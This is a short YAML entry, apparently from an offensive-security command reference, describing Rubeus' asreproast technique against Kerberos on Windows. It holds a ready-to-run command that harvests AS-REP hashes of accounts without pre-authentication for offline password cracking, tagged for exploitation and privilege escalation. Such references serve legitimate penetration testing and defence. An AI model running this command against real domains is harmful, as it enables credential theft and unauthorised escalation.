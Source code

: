 ```yaml
---
description: |
  Rubeus' `asreproast` module will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline. The following command is run on a Windows machine in the victim domain.

  Command Reference:

  	Output File: hashes.txt

command: |
  Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
items:
  - Shell
services:
  - Kerberos
OS:
  - Windows
phases:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asreproast
---
```

